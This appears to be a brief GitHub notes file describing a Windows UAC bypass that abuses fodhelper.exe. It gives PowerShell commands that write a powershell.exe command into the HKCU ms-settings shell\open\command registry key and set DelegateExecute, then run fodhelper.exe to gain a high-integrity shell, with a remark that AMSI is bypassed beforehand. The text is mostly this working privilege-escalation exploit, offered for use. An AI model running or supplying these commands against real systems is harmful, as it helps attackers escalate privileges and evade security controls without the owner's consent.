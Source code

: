 # Exploit fodhelper registry keys to get High integrity shell.  

You can set the value of the registry key to a powershell commmand.  Powershell -encodedcommand arearear== or whatever.  


*** Of Course you have to bypass AMSI before doing registry key settings.  Once Fodhelper.exe is launched you will have high integrity shell ***

``` powershell

New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value powershell.exe –Force
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
C:\Windows\System32\fodhelper.exe

``` 
